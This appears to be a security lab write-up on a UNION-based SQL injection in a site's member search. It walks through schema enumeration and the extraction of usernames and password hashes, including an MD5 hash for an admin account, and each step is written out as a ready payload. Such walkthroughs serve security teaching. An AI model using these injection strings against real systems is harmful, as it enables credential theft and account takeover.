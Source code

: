 # 🔐💉 Member Brute Force SQL Injection (Credential Extraction)

> **OWASP Category:** A03:2021 – Injection  
> **Severity:** 🔴 Critical  
> **Difficulty:** 🟡 Medium-High

The website's member search functionality contains yet another SQL injection vulnerability that allows attackers to extract authentication credentials from a separate brute force protection database (`Member_Brute_Force.db_default`). This demonstrates how SQL injection can lead to complete authentication bypass by discovering and exploiting credential storage systems.

🎯 **Triple Threat:** When SQL injection reveals authentication credentials - from database enumeration to complete system access!

---

## 🎯 Exploit Technique

### 🔧 Attack Evolution

#### 🥇 **Step 1 - Post-Exploitation Database Enumeration**
```sql
-- Building on previous SQL injection discoveries
-- Target: Find authentication-related databases and tables
Input: 5 UNION SELECT table_name, table_schema FROM information_schema.tables

-- Key Discovery: Member_Brute_Force database with db_default table
-- Hypothesis: This might contain authentication credentials
```

#### 🥈 **Step 2 - Credential Table Structure Analysis**
```sql
-- Enumerate columns in the suspected credential table
Input: 5 UNION SELECT column_name, table_name FROM information_schema.columns

-- Result: db_default table contains 3 critical fields:
-- - username (login identifier)
-- - password (encrypted/hashed password)
-- - user_id (user reference)
```

#### 🥉 **Step 3 - Credential Extraction**
```sql
-- Extract all username/password combinations
Input: 5 UNION SELECT username, password FROM Member_Brute_Force.db_default

-- Critical Discovery:
-- Title: 3bf1114a986ba87ed28fc1b5884fc2f8
-- URL: admin
-- Pattern Recognition: Hash format suggests MD5 encryption
```
